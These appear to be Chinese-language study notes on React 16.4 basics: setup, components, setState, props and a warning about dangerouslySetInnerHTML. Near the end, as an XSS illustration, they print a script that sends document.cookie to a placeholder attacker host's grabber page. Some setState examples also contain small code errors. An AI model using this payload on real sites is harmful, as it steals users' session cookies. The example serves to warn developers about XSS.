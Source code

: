 # React16.4

一.安装

    1.npm install -g create-react-app
    2.create-react-app reactDemo
    

二.文件目录

    1. src/index.js 为入口文件
    
    
三.基础用法

    1. import React ,{ Component , Fragment } from 'react';   /* Fragment为占位符，在页面上不会显示这个元素 */
        class (定义一个组件类) extends Component {
          constructor(props){
            super(props);

            /* 定义状态 */
            this.state = {
              inputValue : "",
              list : []
            }
          }

          render() {
            return (
              <Fragment>
              </Fragment>
            );
          }
        }
      
    2. 事件绑定

         在 constructor 中设置 bind this
         栗子 ： this.handleBtnClick = this.handleBtnClick.bind(this);

    3. react中 类名class要写成className , for 要写成 htmlFor, <label htmlFor="inputArea">请输入内容</label>
    
    4. 设置状态

         用法一 ： 
           this.setState({
            inputValue : ""
           });

         用法二 : 
           this.setState( (preState) => {
            return {
              list : [ ...this.State.list,...this.state.inputValue ],
              inputValue : ""
            };
           });

         用法三 : 
           /* preState 可以代替 this.state */
           this.setState( (preState) => ({
             list : [ ...preState.list,...preState.inputValue ],
             inputValue : "" 
           }))

    5. 父子组件通信
         
         ps ：react采用单项数据流，绝对不可以将父组件的 state 传递给子组件。
         
         假设这是一个子组件 <TodoItem /> , 那么我们可以这样将父组件的数据传给它 : 
            <TodoItem content = {item} /> // TodoItem 组件可以通过 this.props.content 拿到数据
         传递方法 : 
            ps : 一定要 记得 bind(this)
            <TodoItem  testBtn = {this.btnAlert.bind(this)} /> // TodoItem 组件可以通过 this.props.tesBtn() 调用方法
    
    6. dangerouslySetInnerHTML
         
         ps ：不合时宜的使用 innerHTML 可能会导致 cross-site scripting (XSS) 攻击。 
              净化用户的输入来显示的时候，经常会出现错误，不合适的净化也是导致网页攻击的原因之一。
              dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告.
              它的 prop 值(一个对象而不是字符串）应该被用来表明净化后的数据。
         
         dangerouslySetInnerHTML = {{__html : this.state.html}}
         
         ps : 恶意脚本 ，获取网页cookie
         <script>
           document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' + document.cookie+' width=16 height=16 border=0 />');
         </script>
         
        
         
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
    
      
